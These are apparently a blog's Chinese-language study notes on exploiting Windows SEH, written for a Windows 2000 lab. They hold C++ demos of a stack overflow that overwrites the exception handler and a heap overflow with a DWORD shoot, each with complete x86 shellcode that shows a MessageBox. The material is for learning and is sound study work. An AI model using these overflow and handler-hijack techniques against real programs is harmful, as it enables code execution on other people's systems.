 ```yaml
---
title: 漏洞利用学习笔记-008-Windows异常处理的利用
description: SEH的栈利用和堆利用
date: 2020-10-25 11:32:00+0800
categories:
    - 漏洞利用
tags:
    - Windows
    - 异常处理
---
```


声明：实验环境为 Windows 2000

本文来源：[Moeomu的博客](/zh-cn/posts/漏洞利用学习笔记-008-windows异常处理的利用/)

## SEH概述

- SEH是异常处理结构体(Structure Exception Handler)，是Windows异常处理机制采用的重要的数据结构。每个SEH包含两个DWORD指针：SEH链表指针和异常处理函数句柄，共8个字节
- SEH结构存放在栈中
- 线程初始化时，自动向栈中安装一个SEH作为线程默认的异常处理
- 如果程序源代码中使用了`try-except`等异常处理机制，编译器最终通过向当前函数栈帧中安装一个SEH来实现异常处理
- 栈中一般会同时存在多个SEH
- 栈中的多个SEH通过链表指针在栈内由栈顶向栈底串成单项链表，位于链表最顶端的SEH通过TEB0字节偏移处的指针标识
- 异常发生时，操作系统会终端程序，首先从TEB的0偏移处去除距离栈顶最近的SEH使用异常处理函数句柄指向的代码来处理异常
- 当离事故现场最近的异常处理函数运行失败时，将顺着SEH链表依次尝试其它的异常处理函数
- 如果程序安装的所有异常处理函数都不能处理，系统将采用默认的异常处理函数，此函数将弹出错误对话框然后强制关闭程序

## SEH利用思路

- SEH存放在栈内，溢出缓冲区的数据可以淹没SEH
- 将SEH入口改为shellcode起始地址
- 溢出后错误的栈帧或堆块数据会触发异常
- Windows开始处理异常后，将shellcode当作异常处理函数而执行

## SEH的栈利用测试

### NOP测试

#### 代码

```CPP
#include <stdio.h>
#include <windows.h>

char shellcode[] =
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90" // next SEH Record
"\x90\x90\x90\x90" // SE Handler Function Address
"\x90\x90\x90\x90" // Nothing
"\x90\x90\x90\x90" // Nothing
"\x90\x90\x90\x90" // EBP
"\x90\x90\x90\x90" // Return Address
;

DWORD MyExceptionhandler(void)
{
    printf("got an exception, press Enter to kill   process!\n");
    getchar();
    ExitProcess(1);
    return 0;
}

void test(char* input)
{
    char buf[200];
    int zero = 0;
    __asm int 3 // used to break process for debug
    __try
    {
        strcpy(buf, input); // overrun the stack
        zero = 4 / zero; // generate an exception
    }
    __except(MyExceptionhandler()){}
}

void main()
{
    test(shellcode);
}
```

#### 观察

- `0x0012FE98`地址处时shellcode的起始位置
- 当前线程一共安装了3个SEH，离栈顶最近的位于`0x0012FF68`，这是最先调用的SEH
- 我们要覆盖的地址是`0x0012FF6C`，这是处理函数的地址，内容填入ShellCode的起始地址即可

### 实际测试

#### 代码

```CPP
#include <stdio.h>
#include <windows.h>

char shellcode[]=
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x6B\x61\x6F\x6F\x68\x4D\x69\x73\x61\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90" // Next SEH Record
"\x98\xFE\x12\x00"; // SEH Handler

DWORD MyExceptionhandler(void)
{
    printf("got an exception, press Enter to kill process!\n");
    getchar();
    ExitProcess(1);
    return 0;
}

void test(char * input)
{
    char buf[200];
    int zero=0;
    _try
    {
        strcpy(buf,input); //overrun the stack
        zero=4/zero; //generate an exception
    }
    _except(MyExceptionhandler()){}
}

void main()
{
    test(shellcode);
}

```

#### 观察

- 弹出MessageBox对话框成功

## SEH的堆利用测试

### 实际测试

#### 代码

```CPP
#include <windows.h>

char shellcode[]=
"\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x6B\x61\x6F\x6F\x68\x4D\x69\x73\x61\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90"
"\x16\x01\x1A\x00\x00\x10\x00\x00" // head of the ajacent free block
"\x88\x06\x30\x00" // 0x00300688 is the address of shellcode in first
// Heapblock
"\x30\xFF\x12\x00"; // target of DWORD SHOOT

DWORD MyExceptionhandler(void)
{
    ExitProcess(1);
    return 0;
}

void main()
{
    HLOCAL h1 = 0, h2 = 0;
    HANDLE hp;
    hp = HeapCreate(0, 0x1000, 0x10000);
    h1 = HeapAlloc(hp, HEAP_ZERO_MEMORY, 200);
    memcpy(h1, shellcode, 0x200); // over flow here, noticed 0x200 means
    //512 !
    __asm int 3 // uesd to break the process
    __try
    {
        h2 = HeapAlloc(hp, HEAP_ZERO_MEMORY, 8);
    }
    __except(MyExceptionhandler()){}
}
```
